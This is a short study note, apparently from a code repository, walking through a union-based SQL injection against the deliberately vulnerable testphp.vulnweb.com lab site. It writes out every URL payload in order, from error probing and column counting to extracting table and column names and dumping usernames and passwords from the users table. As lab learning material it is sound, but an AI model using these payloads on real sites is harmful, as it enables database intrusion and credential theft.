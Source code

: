 Union SQl Injection
->testphp.vulnweb.com

-> find a parameter
test wether it has an sql database or not
->Check errors

http://testphp.vulnweb.com/listproducts.php?cat=1
http://testphp.vulnweb.com/listproducts.php?cat=1'

->Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1 Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /hj/var/www/listproducts.php on line 74 

->http://testphp.vulnweb.com/listproducts.php?cat=1' order by 1--+
->remove '
->http://testphp.vulnweb.com/listproducts.php?cat=1 order by 1--+
->http://testphp.vulnweb.com/listproducts.php?cat=1 order by 5--+
->http://testphp.vulnweb.com/listproducts.php?cat=1 order by 7--+
->http://testphp.vulnweb.com/listproducts.php?cat=1 order by 10--+
->http://testphp.vulnweb.com/listproducts.php?cat=1 order by 11--+
->http://testphp.vulnweb.com/listproducts.php?cat=1 order by 12--+
-> Error: Unknown column '12' in 'order clause' Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /hj/var/www/listproducts.php on line 74
search art
-->Unknown column<--
--> know we know that we have 
->http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,2,3,4,5,6,7,8,9,10,11--+
->we get vulnerable tables 
2,7,9


->version()
->database()
->http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,2,3,4,5,6,table_name,8,9,10,11 from information_schema.tables--+
->It will give us list of table name now we know which table to use/select
->>"users"
->now we need columns
->>http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,2,3,4,5,6,column_name,8,9,10,11 from information_schema.columns where table_name="users"--+
->now we know we have column names like-->>>>>>>>>>uname,pass,address,email,name
->juicy info kha se mil sakta hen
->uname,pass,address
->so 
->
->http://testphp.vulnweb.com/listproducts.php?cat=1 union select 1,2,3,4,5,6,group_concat(uname,':',pass),8,9,10,11 from users--+

-> and we get username and password





union-> union is an sql operator ,it's job is to combine the result of two or more select statement into a single result which is then returned as a part of HTTP response.
